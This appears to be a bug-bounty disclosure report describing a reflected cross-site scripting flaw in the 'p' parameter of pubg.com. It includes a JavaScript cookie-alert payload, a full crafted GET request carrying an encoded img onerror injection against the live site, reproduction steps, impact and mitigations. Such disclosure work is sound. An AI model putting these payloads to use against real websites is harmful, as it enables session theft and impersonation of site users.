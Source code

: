 # HackerOne Vulnerability Report - Reflected XSS in pubg.com

## Affected asset(s)

* https://www.pubg.com/

## Description

PUBG's main website https://www.pubg.com has an endpoint that is vulnerable to an injection vulnerability - namely a reflected injection of JavaScript, also known as Reflected Cross Site Scripting (XSS). As per OWASP's definition: "Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. "
This happens because one of the GET parameters "p" does not properly sanitize/escape user input, allowing an injection to occur.

## Proof of Concept
[Video Link](https://youtu.be/sDINhDEgp48)

<img src="https://i.imgur.com/sgdpR47.gif" alt="alt text" width="1000" height="600">

## Steps to reproduce

To reproduce this, an attacker has to:

 * **Step 1)** Prepare a Javascript payload that it wants the victim to execute. In this case, for Proof of Concept purposes, our Javascript code will prompt an alert showing the users' cookies.

```javascript
alert(document.cookie);
```

 * **Step 2)** Inject this Javascript code properly into the vulnerable parameter, creating thus a crafted future GET request that will inject the payload.
 
 ```get_request
 GET /?p=iqz78'%3e%3cimg%20src%3da%20onerror%3dalert(document.cookie)%3d1%3echplq HTTP/1.1
Host: www.pubg.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: https://www.pubg.com/es/feed/
Cookie: _icl_current_language=en; _icl_visitor_lang_js=en-us; wpml_browser_redirect_test=0; __cfduid=de74423d435717d651b1c9e2c63f4acc21575460678
 ```
 
 Request PoC
 
 ![Request](https://i.imgur.com/EkxbL5n.png)
 
  * **Step 3)** As this injection happens in a GET parameter, the attacker simply needs to send the crafted Link that produces this GET request to the victim and have the victim click it.
  
  Injection demonstration
  
  ![Request](https://i.imgur.com/J7FYcXk.png)
  
  ## Impact
  
With user interaction, an attacker could execute arbitrary Javascript code in a victim's browser.

This would allow an attacker to unwillingly make a victim:
 * Perform any action in the identified endpoint
 * View any information that the user is able to view
 * Modify any information that the user is able to modify (not sure if applicable in this case)
 * Interact with other application users as if it were him - impersonation (not sure if applicable in this case)
 
 ## Mitigation
 
 * Sanitize inputs if they are reflected into the html rending
 * Use X-XSS-Protection HTTP headers
 
 [Reference](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
